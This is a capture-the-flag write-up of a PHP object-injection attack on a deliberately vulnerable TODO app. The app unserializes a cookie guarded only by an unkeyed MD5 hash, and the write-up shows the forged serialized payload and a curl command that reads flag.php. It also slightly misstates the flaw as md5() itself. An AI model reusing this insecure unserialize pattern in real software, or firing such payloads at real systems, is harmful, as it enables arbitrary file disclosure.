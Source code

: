 # Web Exotic Attacks TODO App

We’re given a basic TODO web app with a cookie-based storage and source disclosure via `?source`.

Visiting `?source` reveals PHP code:

```php
<?php

Class GPLSourceBloater {
    public function __toString()
    {
        return highlight_file('license.txt', true) . highlight_file($this->source, true);
    }
}

if (isset($_GET['source'])){
    $s = new GPLSourceBloater();
    $s->source = __FILE__;

    echo $s;
    exit;
}

$todos = [];

if (isset($_COOKIE['todos'])) {
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);

    if(md5($m) === $h) {
        $todos = unserialize($m);
    }
}

if (isset($_POST['text']) && strlen($_POST['text']) > 1) {
    $todo = $_POST['text'];

    $todos[] = $todo;
    $m = serialize($todos);
    $h = md5($m);

    setcookie('todos', $h.$m);

    header('Location: ' . $_SERVER['REQUEST_URI']);
    exit;
}

?>
```

- The todos cookie is unserialized if its MD5 hash matches. This is not secure: it uses md5().
- A custom class GPLSourceBloater is present and unserializable.

Class definition from source:

```php
class GPLSourceBloater {
    public function __toString() {
        return highlight_file('license.txt', true) . highlight_file($this->source, true);
    }
}
```

We can inject this object into the cookie. When PHP calls echo $todo, it triggers __toString(), which leaks any readable file.

Serialized PHP object:
```php
a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}
a:1:{...} → array with 1 element

O:16:"GPLSourceBloater" → PHP object

s:6:"source" → set $this->source = "flag.php"
```

MD5: `760463360e4919ca238d1566fc26661f`

Final Cookie Value (concatenated): 
```
760463360e4919ca238d1566fc26661fa:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}
```

URL-encoded for curl: 
```
todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```
```bash
curl -s "http://141.85.224.99:8002/" \
  -H 'Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D' \
  | grep -oE 'SSS\{.*?\}'
```

It returned: **SSS{0bj3ct_1nj3ct10ns_ar3_pa1nfull}**

* It could also been done if we edited the cookie manual to `todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D` and there will be shown the GNU Public License and on the bottom of them the flag.
